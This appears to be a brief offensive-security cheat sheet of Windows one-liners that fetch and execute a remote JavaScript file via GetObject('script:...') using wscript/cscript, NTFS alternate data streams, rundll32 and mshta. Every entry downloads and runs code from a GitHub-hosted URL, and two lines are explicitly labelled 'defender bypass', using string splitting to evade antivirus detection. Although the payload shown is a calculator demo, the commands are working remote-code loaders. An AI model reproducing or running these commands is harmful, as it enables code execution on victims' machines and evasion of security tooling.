 #### GetObject

wscript/cscript <br><br>
`echo GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js") > test.js && wscript.exe test.js`<br>
<br>

Alternate data streams method <br><br>
`echo GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js") > %temp%\test.txt:hi.js && wscript.exe %temp%\test.txt:hi.js`

rundll32<br><br>
`rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js")`
<br>
<br>
mshta 
<br><br>
`mshta.exe javascript:GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js");close();`

defender bypass
<br><br>
`mshta.exe vbscript:Close(Execute("GetObject(""script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js"")"))`
<br>
`mshta.exe vbscript:Close(Execute("GetO"+"bject"+"(""script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js"")"))`


<br><br>ads method suggested by @yeyint_mth
